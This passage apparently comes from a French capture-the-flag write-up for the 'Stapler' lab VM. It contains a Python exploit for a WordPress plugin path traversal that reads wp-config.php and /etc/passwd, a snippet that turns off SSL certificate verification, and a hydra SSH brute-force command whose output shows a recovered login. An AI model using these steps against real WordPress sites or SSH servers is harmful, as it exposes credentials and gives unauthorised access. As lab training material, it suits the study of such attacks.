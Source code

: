 ```
randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()


```

\pagebreak


On a besoin de bypass la vérification du certificat SSL:
```python
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```

Le plus simple est de faire une requête dans le navigateur à
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=/etc/passwd](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=/etc/passwd).
On va regarder dans [https://stapler:12380/blogblog/wp-content/uploads](https://stapler:12380/blogblog/wp-content/uploads)
et on télécharge le résultat. Lorsque que l'on cherche à récupérer des fichiers
 côté server, le fichier `/etc/passwd` est un bon test car sur tout système unix,
ce fichier possède les droits de lecture pour tous les users. De plus, cela nous
permet de connaitre les users afin de forcer une connexion SSH.

wget [https://stapler:12380/blogblog/wp-content/uploads/554398209.jpeg](https://stapler:12380/blogblog/wp-content/uploads/554398209.jpeg) --no-check-certificate

On a donc la liste des users:
```bash
peter:x:1000:1000:Peter,,,:/home/peter:/bin/zsh
...
elly:x:1029:1029::/home/elly:/bin/bash
```

## On récupère un shell

```
hydra -L users.txt stapler ssh -e nsr
[22][ssh] host: stapler   login: SHayslett   password: SHayslett
```
